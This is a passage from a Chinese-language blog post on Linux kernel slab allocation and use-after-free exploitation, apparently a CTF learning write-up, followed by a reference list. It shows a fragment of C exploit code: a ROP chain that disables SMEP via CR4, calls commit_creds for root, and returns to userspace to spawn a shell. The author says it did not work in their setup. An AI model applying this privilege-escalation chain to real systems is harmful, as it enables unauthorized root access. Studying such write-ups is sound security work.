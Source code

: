 ```
    void (*cc)(char*) = commit_creds_addr;
    (*cc)((*pkc)(0));
}
int main() {
    size_t rop[32] = {0};
    rop[i++] = 0xffffffff81521a97;      // pop rdi; ret;
    rop[i++] = 0x6f0;
    rop[i++] = 0xffffffff8101fb0d;      // mov cr4, rdi; ret;
    rop[i++] = (size_t)get_root;
    rop[i++] = 0xffffffff8106c717;      // swapgs; ret;
    rop[i++] = 0xffffffff81035a2b;      // iretq; ret
    rop[i++] = (size_t)get_shell;
    rop[i++] = user_cs;                /* saved CS */
    rop[i++] = user_rflags;            /* saved EFLAGS */
    rop[i++] = user_sp;
    rop[i++] = user_ss;
}
```
> 我的环境中没有exploit成功，也可能是因为没有找到gadget的原因，但是利用思路已经很明显了就是这个样子

2022年重新回来看这个问题，新认识到一种叫做缓存跨越的知识点，可以越过特定缓存和通用缓存的隔离，利用喷射的方式将已经被释放的`slab页`占用
> https://mp.weixin.qq.com/s/Qs_-CTZyojRe_x8E0KiXMg


# 参考资料
* [Linux内存管理中的slab分配器](https://www.cnblogs.com/pengdonglin137/p/3878552.html)
* [Kernel那些事儿之内存管理(7) --- Slab（上）](https://blog.51cto.com/richardguo/1673269)

* [linux内核slab机制分析](https://www.jianshu.com/p/95d68389fbd1)

* [slab分配器--Linux内存管理(二十二)](https://blog.csdn.net/gatieme/article/details/52705552)

* [binary-源码分析-Linux-kernel-内存管理机制](https://hitworld.github.io/posts/ee6cd918/)
* [【linux内存源码分析】slub分配算法（3）](https://www.jeanleo.com/2018/09/07/%E3%80%90linux%E5%86%85%E5%AD%98%E6%BA%90%E7%A0%81%E5%88%86%E6%9E%90%E3%80%91slub%E5%88%86%E9%85%8D%E7%AE%97%E6%B3%95%EF%BC%883%EF%BC%89/)
* [图解slub](https://richardweiyang-2.gitbook.io/kernel-exploring/00-memory_a_bottom_up_view/09-slub_in_graph)
* [linux 内核 内存管理 slub算法 （一） 原理](https://blog.csdn.net/lukuen/article/details/6935068)
* [利用Linux内核里的Use-After-Free（UAF）漏洞提权](https://www.freebuf.com/vuls/95708.html)
* [Protostar-堆溢出学习-UAF(use after free)](http://4ch12dy.site/2017/04/21/Protostar-%E5%A0%86%E6%BA%A2%E5%87%BA%E7%B3%BB%E5%88%97%E5%AD%A6%E4%B9%A0-heap%202/Protostar-%E5%A0%86%E6%BA%A2%E5%87%BA%E7%B3%BB%E5%88%97%E5%AD%A6%E4%B9%A0-heap%202/)
* [C/C++刁钻问题各个击破之细说sizeof](https://blog.csdn.net/w57w57w57/article/details/6626840)
* [linux kernel pwn notes](https://www.secshi.com/17013.html)
* [CLASS_CREATE()](https://www.cnblogs.com/LxwEmbedded/p/4854714.html)
* [mm-slab初始化](https://www.cnblogs.com/adera/p/11718722.html)
* [【KERNEL PWN】WCTF 2018 klist解题思路](http://p4nda.top/2018/11/27/wctf-2018-klist/)
* [Linux TTY函数跟踪](https://www.shuzhiduo.com/A/ZOJP4pxOJv/)
* [【KERNEL PWN】CISCN 2017 babydriver题解](http://p4nda.top/2018/10/11/ciscn-2017-babydriver/)
* [smap，smep](http://chinaunix.net/uid-31410005-id-5822053.html)
* [linux kernel pwn学习之堆漏洞利用+bypass smap、smep](https://blog.csdn.net/seaaseesa/article/details/104591448/)
